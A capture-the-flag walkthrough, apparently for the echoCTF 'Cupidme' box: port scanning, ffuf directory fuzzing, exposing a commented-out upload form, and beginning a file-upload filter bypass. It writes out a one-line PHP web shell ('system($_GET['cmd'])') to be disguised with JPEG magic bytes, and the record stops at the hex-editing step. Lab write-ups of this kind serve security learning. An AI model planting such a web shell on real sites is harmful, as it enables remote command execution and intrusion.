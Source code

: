 # Box: Cupidme
# Level: Intermediate
# OS: Linux
<hr>

Lets get started

# Recon

## Portscanning

command:```sudo nmap -A 10.0.30.187 -T4  -v -p-```

```
```
From our scan we have only 1 open port, so our enumeration will be focused on that port




# Enumeration 

Navigate to the webpage

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/57455236-6563-4073-9aa1-42af759dead3)

Lets fuzz for directories

command:```ffuf -u "http://10.0.30.187/FUZZ" -w /usr/share/wordlists/dirb/common.txt -e .zip,.sql,.php,.phtml,.bak,.backup```

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/EchoCtf/cupidme]
└─$ ffuf -u "http://10.0.30.187/FUZZ" -w /usr/share/wordlists/dirb/common.txt -e .zip,.sql,.php,.phtml,.bak,.backup

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.0.30.187/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt
 :: Extensions       : .zip .sql .php .phtml .bak .backup 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

images                  [Status: 301, Size: 185, Words: 6, Lines: 8, Duration: 167ms]
index.php               [Status: 200, Size: 1805, Words: 92, Lines: 2, Duration: 171ms]
index.php               [Status: 200, Size: 1805, Words: 92, Lines: 2, Duration: 547ms]
LICENSE                 [Status: 200, Size: 1075, Words: 152, Lines: 19, Duration: 166ms]
upload.php              [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 161ms]
:: Progress: [32305/32305] :: Job [1/1] :: 137 req/sec :: Duration: [0:02:46] :: Errors: 0 ::
```
Navigating to the ```images``` directory I got a ```403 error```. 

Lets navaigate to the ```/upload.php``` directory

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/cf7c2a44-346c-4dbb-884c-3935990b6131)

As you can see we get redirected back to the main page.

Checking the page source,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/9122bbbb-3a8d-4b75-b504-7420ad97032e)

Well, this is the reason why we can't view the ```/upload.php``` directory. The HTML code is commented.

To solve this we have to uncomment that part of the code. We'll be using the developer tools for this

So, right-click and inspect element

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/c16de178-3964-49f4-ae0a-02b2fe8912bf)

Click on that drop down

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/e6c40a03-3e0b-4f8b-9352-3fe8d65917a5)

Click on that also,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/a65d193a-6025-4513-8004-5c1f0382600c)

Good, so our goal is to uncomment that part of the code.

Now, right-click and click on ```Edit As HTML```, we'll be removing the comments ```<!--``` and ```-->```

Doing that should get you this

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/76b4abc6-648f-4531-b93c-335f3fbfc383)

As you can see  we can now access the upload button.



# Exploitation

Lets try to upload something, say a ```.jpg``` file

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/4bd42d2a-5f42-447a-9100-8c8b67a0ce91)

oops, the file size supported is 39 bytes. So there's a filter in this upload function

1.Upload a .jpeg file 

2.The maximum size of the .jpeg file must be 39 bytes

These are the 2 filters in the upload function

Reading this [blog](https://null-byte.wonderhowto.com/how-to/bypass-file-upload-restrictions-web-apps-get-shell-0323454/) talks about how to bypass file upload restrictions

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/11b52f62-d434-4baa-b702-fa5e10cebfee)

This is the method we'll be using

payload:```AAAA<?php system($_GET[‘cmd’]); ?>```

Save this in a file ```bankai.php```

```
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/EchoCtf/cupidme]
└─$ nano bankai.php 
                                                                                                                                                                                                
┌──(bl4ck4non㉿bl4ck4non)-[~/Downloads/EchoCtf/cupidme]
└─$ cat bankai.php 
AAAA<?php system($_GET[‘cmd’]); ?>
```
Now, this is a php script, what we'll do is change the magic bytes header from a ```.php``` to a ```.jpeg```

To access the magic bytes of the file, we'll use ```hexeditor```

command:```hexeditor bankai.php```










